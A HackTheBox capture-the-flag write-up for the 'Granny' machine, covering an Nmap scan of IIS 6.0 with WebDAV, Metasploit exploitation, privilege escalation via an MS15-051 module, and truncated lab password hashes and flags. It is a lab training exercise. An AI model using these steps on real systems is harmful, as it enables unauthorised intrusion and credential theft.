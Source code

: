 [HackTheBox] Granny
===============
date: 04/Nov/2019
summary: This is the summary for an awesome post.
tags: hackthebox, writeup

## Overview
![writeup.metadata.infocard](/static/files/posts_htb_granny/infocard.png.webp)

This is a writeup for HTB VM [Granny](https://www.hackthebox.eu/home/machines/profile/14). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

![writeup.overview.killchain](/static/files/posts_htb_granny/killchain.png.webp)

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Mon Nov  4 13:35:36 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/htb.granny/results/10.10.10.15/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/htb.granny/results/10.10.10.15/scans/xml/_quick_tcp_nmap.xml 10.10.10.15
Nmap scan report for 10.10.10.15
Host is up, received user-set (0.051s latency).
Scanned at 2019-11-04 13:35:37 PST for 21s
Not shown: 999 filtered ports
Reason: 999 no-responses
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 6.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT POST
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan:
|   WebDAV type: Unkown
|   Server Type: Microsoft-IIS/6.0
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Server Date: Mon, 04 Nov 2019 21:36:04 GMT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov  4 13:35:58 2019 -- 1 IP address (1 host up) scanned in 21.97 seconds
```

2\. We look for IIS 6.0 vulnerabilities and find multiple WebDAV related hits:  

![writeup.enumeration.steps.2.1](/static/files/posts_htb_granny/screenshot01.png.webp)  

### Findings
#### Open Ports
```
80/tcp  |  http  |  Microsoft IIS httpd 6.0
```

## Phase #2: Exploitation
1\. We decide to use the Metasploit `windows/iis/iis_webdav_upload_asp` exploit and it successully gives us a Meterpreter shell:  

![writeup.exploitation.steps.1.1](/static/files/posts_htb_granny/screenshot02.png.webp)  

![writeup.exploitation.steps.1.2](/static/files/posts_htb_granny/screenshot03.png.webp)  

## Phase #2.5: Post Exploitation
```
ntauth/network@GRANNY> id
NT AUTHORITY\NETWORK SERVICE
ntauth/network@GRANNY>  
ntauth/network@GRANNY> uname
Computer        : GRANNY
OS              : Windows .NET Server (Build 3790, Service Pack 2).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 3
Meterpreter     : x86/windows
ntauth/network@GRANNY>  
ntauth/network@GRANNY> ifconfig
Ethernet adapter Local Area Connection:
 Connection-specific DNS Suffix  . :
 IP Address. . . . . . . . . . . . : 10.10.10.15
 Subnet Mask . . . . . . . . . . . : 255.255.255.0
 Default Gateway . . . . . . . . . : 10.10.10.2
ntauth/network@GRANNY>  
ntauth/network@GRANNY> users
Administrator
Lakis
```

## Phase #3: Privilege Escalation
1\. Since we have certain restrictions that stop us from running commands like `getuid`, we have to migrate to a different process. We find the PID for process `davcdata.exe` and migrate to it:  

![writeup.privesc.steps.1.1](/static/files/posts_htb_granny/screenshot04.png.webp)  

2\. We can now use the Metasploit `multi/recon/local_exploit_suggester` module to look for privesc options:  

![writeup.privesc.steps.2.1](/static/files/posts_htb_granny/screenshot05.png.webp)  

3\. We tried a few exploits from this list and eventually the `windows/local/ms15_051_client_copy_image` module worked and provided an elevated session:  

![writeup.privesc.steps.3.1](/static/files/posts_htb_granny/screenshot06.png.webp)  

![writeup.privesc.steps.3.2](/static/files/posts_htb_granny/screenshot07.png.webp)  

4\. We then obtain further information about the system and read the contents of both user.txt and root.txt files to comeplete the challenge:  
```
cat "C:\Documents and Settings\Lakis\Desktop\user.txt"
cat "C:\Documents and Settings\Administrator\Desktop\root.txt"
```

![writeup.privesc.steps.4.1](/static/files/posts_htb_granny/screenshot08.png.webp)  

## Loot
### Hashes
```
Administrator:500:c74761604a24f0dfd0a9ba2c30e462cf:d6908f022af0373e9e.................
ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f589................
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c...............
IUSR_GRANPA:1003:a274b4532c9ca5cdf684351fab962e86:6a981cb5e038b2d8b7.................
IWAM_GRANPA:1004:95d112c4da2348b599183ac6b1d67840:a97f39734c21b3f615.................
Lakis:1009:f927b0679b3cc0e192410d9b0b40873c:3064b6fc432033870c6................
SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:8ed3993efb4e6476e..................
```
### Flags
```
C:\Documents and Settings\Lakis\Desktop\user.txt: 700c5dc163014e22................
C:\Documents and Settings\Administrator\Desktop\root.txt: aa4beed1c05844..................
```

## References
* <https://www.hackthebox.eu/home/machines/profile/14>  
* <https://marcelowoloszyn.cl/hackthebox/hack-the-box-write-up-granny/>  
* <https://reboare.github.io/hackthebox/htb-granny.html>  
